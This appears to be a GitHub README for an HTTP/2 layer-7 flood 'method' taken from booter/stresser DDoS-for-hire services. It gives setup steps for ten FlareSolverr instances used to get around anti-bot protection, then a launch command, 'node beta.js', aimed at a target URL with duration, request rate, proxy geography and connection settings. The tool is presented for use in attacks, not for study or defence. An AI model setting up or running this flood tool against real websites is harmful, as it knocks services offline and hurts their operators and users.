 # http-browser
HTTP Browser method using FlareSolverr



sh install.sh

install the other depedencies as the script asks with 'npm i name'

cd solvers/flaresolver01; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver02; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver03; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver04; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver05; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver06; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver07; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver08; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver09; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver10; export PUPPETEER_PRODUCT=firefox; npm install

python start_solvers.py

run the method 

node beta.js "https://website.com" 600 64 GET --mode browser --geo all --conn 32


Method hacked from Booter.sx, released by Stresser.US - method updated and upgraded to HTTP/2 by forky and WeAreRainBowHAT
